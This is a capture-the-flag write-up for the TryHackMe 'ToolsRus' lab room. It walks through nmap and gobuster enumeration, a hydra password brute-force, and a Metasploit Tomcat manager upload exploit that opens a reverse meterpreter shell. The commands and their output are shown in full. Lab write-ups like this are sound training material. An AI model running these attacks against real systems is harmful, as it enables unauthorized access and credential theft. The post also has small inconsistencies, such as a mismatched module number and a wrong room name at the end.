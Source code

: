 # ToolsRus
> 4lch3my | March 09, 2023
-------------------
#### This is a machine that allows you to practise web app hacking and privilege escalation
#### [Room Link](https://tryhackme.com/room/toolsrus)

## Tasks
##### 1. ToysRus
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>

To start, I use [nmap] which is default option on the perosnal Kali install I have. We start with a basic command `nmap -sC -sV -A MACHINE_IP `
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A outputs in agressive mode, so we can follow along with the commands and enumeration.
In our NMAP results we get:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-03-09 00:50 GMT
Nmap scan report for ip-MACHINE_IP.eu-west-1.compute.internal (MACHINE_IP)
Host is up (0.00066s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:99:f5:94:27:2c:18:9e:ad:03:ef:e8:2e:33:48:40 (RSA)
|   256 4c:73:c5:35:de:02:26:07:fe:dd:92:ed:38:2c:3f:7c (ECDSA)
|_  256 49:d0:53:8b:7c:99:a6:21:7d:40:6c:74:9d:b7:90:80 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
MAC Address: 02:5B:94:C2:14:BD (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=3/9%OT=22%CT=1%CU=40054%PV=Y%DS=1%DC=D%G=Y%M=025B94%TM
OS:=64092D51%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=I%TS=8)
OS:SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=RD%II=I%TS=8)OPS(O1=M2301ST11NW7%O2=M23
OS:01ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)
OS:WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=
OS:6903%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N
OS:)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=
OS:0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```
We see 4 open ports: `22 - SSH`, `80 - HTTP`, `1234 - HTTP` & `8009 - ajp13` what is an Apache service running. Before we visit the webpages lets run a quick adn dirty `GoBuster` scan with: `gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`on port 80:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://MACHINE_IP/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/03/08 23:56:41 Starting gobuster
===============================================================
/guidelines (Status: 301)
/protected (Status: 401)
/server-status (Status: 403)
===============================================================
2023/03/08 23:57:10 Finished
===============================================================
```

And on port `1234`: `gobuster dir -u http://MACHINE_IP:1234/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://MACHINE_IP:1234/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/03/09 01:00:14 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
===============================================================
2023/03/09 01:00:46 Finished
===============================================================
```
Time to visit all the directorys. Let's go!
<br>

Fist the main page: `http://MACHINE_IP/`. Empty!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUS/images/ToolsRUs.PNG?raw=true)

Next will be: `http://MACHINE_IP/guidelines/`. And we found our username!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUS/images/bob.PNG?raw=true)

And finally: `http://MACHINE_IP/protected`. We get stopped by an authentication popup asking for a username:password combination. Time for some good old bruteforcing with `hydra`.
<br>

We already know our user, `bob`, `MACHINE_IP`, and `/protected/` directory so we can start a `http-get` attack against our machine with the wordlist of our choise. As this is a `THM machine`, we suspect that the password will be located within the usual `rockyou.txt` file. To to run the attack: `hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.241.174 http-get /protected/`.

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2023-03-09 00:11:04
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://10.10.241.174:80//protected/
[80][http-get] host: 10.10.241.174   login: bob   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-03-09 00:11:17
```

Only after a few seconds we find our `password` for the user `bob`. Time to log in to the password protected section of this web server.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUS/images/rabbit_hole.PNG?raw=true)

And that's the end of that page. Moving on to the `http://MACHINE_IP:1234/`, where we are greated with the `Apache Tomcat/7.0.88` default page.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUS/images/TomCat.PNG?raw=true)

After a quick `Google` or `ChatGPT` seearch we can see that this app is quite old and has multiple `CVE's` dedicated to it. Seems like the website admin did not update this for a long time. Making our lifes easier I see... Moving on to actually getting on to this machine and grabing the final flag. As instructed by the box, we will use `Metasploit` to answer the last two questions. 
<br>

After switching to the `Metasploit Console` with the command `mfconsole`, we can search for Tomcat vulnerabilities in the databased stored in the app: `msf6 > search Tomcat`

```
Matching Modules
================

   #   Name                                                            Disclosure Date  Rank       Check  Description
   -   ----                                                            ---------------  ----       -----  -----------
   0   auxiliary/dos/http/apache_commons_fileupload_dos                2014-02-06       normal     No     Apache Commons FileUpload and Apache Tomcat DoS
   1   exploit/multi/http/struts_dev_mode                              2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   2   exploit/multi/http/struts2_namespace_ognl                       2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3   exploit/multi/http/struts_code_exec_classloader                 2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   4   auxiliary/admin/http/tomcat_ghostcat                            2020-02-20       normal     Yes    Apache Tomcat AJP File Read
   5   exploit/windows/http/tomcat_cgi_cmdlineargs                     2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
   6   exploit/multi/http/tomcat_mgr_deploy                            2009-11-09       excellent  Yes    Apache Tomcat Manager Application Deployer Authenticated Code Execution
   7   exploit/multi/http/tomcat_mgr_upload                            2009-11-09       excellent  Yes    Apache Tomcat Manager Authenticated Upload Code Execution
   8   auxiliary/dos/http/apache_tomcat_transfer_encoding              2010-07-09       normal     No     Apache Tomcat Transfer-Encoding Information Disclosure and DoS
   9   auxiliary/scanner/http/tomcat_enum                                               normal     No     Apache Tomcat User Enumeration
   10  exploit/linux/local/tomcat_ubuntu_log_init_priv_esc             2016-09-30       manual     Yes    Apache Tomcat on Ubuntu Log Init Privilege Escalation
```

The 6th `exploit` on the list `/multi/http/tomcat_mgr_deploy` seems to be exactly what we need. Let's switch to it and configure it:

```
msf6 > use exploit/multi/http/tomcat_mgr_uplo
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.241.174
RHOSTS => 10.10.241.174
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234
RPORT => 1234
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword bubbles
HttpPassword => bubbles
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername bob
HttpUsername => bob
```
Now after it is configured correctly, we can run it:

```
msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on HOST_IP:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying l1BnwvSyQFkgg2c8bgBYXr...
[*] Executing l1BnwvSyQFkgg2c8bgBYXr...
[*] Undeploying l1BnwvSyQFkgg2c8bgBYXr ...
[*] Sending stage (58851 bytes) to MACHINE_IP
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (HOST_IP:4444 -> MACHINE_IP:41378) at 2023-03-09 00:45:54 +0000

meterpreter >
```

Success we have access! We can now grab the flag and complete this room!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUS/images/flag.PNG?raw=true)

#### Thank you for checking out my writeup about the THM room: RootMe! If you are interested in other writeups of mine or interetsed in some of my codeing work, please feel free to look around my GitHub page! Happy hacking! - 4lch3myí